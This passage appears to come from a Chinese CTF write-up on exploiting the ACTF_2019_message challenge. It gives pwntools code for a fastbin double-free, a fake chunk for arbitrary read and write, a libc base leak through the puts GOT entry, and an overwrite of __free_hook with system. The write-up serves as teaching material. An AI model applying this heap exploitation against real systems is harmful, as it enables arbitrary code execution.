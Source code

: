 值得注意的是，由于`size`要相同，我们第 0 个 chunk 的大小应该比其他 chunk 大`0x10`

```python
add(0x20, b'aaaaaa')  # 0
add(0x10, b'aaaaaa')
add(0x10, b'aaaaaa')
delete(1)
delete(2)
delete(1)
add(0x10, p64(0x602060-0x08))  # 3
```

可以看到，我们在`0x602060-0x08`的地方构造了一个`fake_chunk`，如此一来，`0x602060`便可以作为`chunk_size`，而`0`的`chunk_addr`也就可以由`fake_chunk`修改，`chunk_addr`的内容也能由`0`来读

![image-20220321165333289](https://oss.nova.gal/img/image-20220321165333289.png)

```python
add(0x10, b'aaaaaa')  # 4
add(0x10, b'aaaaaa')  # 5
add(0x10, b'aaaaaa')  # 6 -> fake
```

![image-20220321165836827](https://oss.nova.gal/img/image-20220321165836827.png)

此时已经可以任意读任意写了，这时候，只需要搞出`libc_base`就可以了

```python
elf = ELF(r"./ACTF_2019_message")
libc = ELF(r"/home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so")

add(0x10, p64(elf.got['puts']))  # 6 -> fake

puts_addr = u64(show(0).ljust(8, b'\x00'))
libc_base = puts_addr - libc.sym['puts']
print(hex(libc_base))
```

`libc_base`出来了，可是如何调用`system`还是困难的。因为保护是`FULL RELRO`，所以我们没办法改写`GOT表`，即使能改，因为我们没有办法传参，也没办法过去（除非我们找到 one-gadget 然后再想办法在栈上写）

这时候就可以使用包括`__malloc_hook()`和`__free_hook()`等一系列`libc`中自带的`hook`函数

其中属`__free_hook()`最好用，因为它的参数就是`chunk`本身

这样，我们只需要把`6`的`content`改为`__free_hook()`，并把`0`的`content`改为`system()`，便实现了篡改

![__free_hook()有write权限](https://oss.nova.gal/img/image-20220321173758716.png)

```python
system = libc_base + libc.sym['system']
free_hook = libc_base + libc.sym['__free_hook']
print(hex(free_hook))

edit(6, p64(free_hook))
edit(0, p64(system))
```
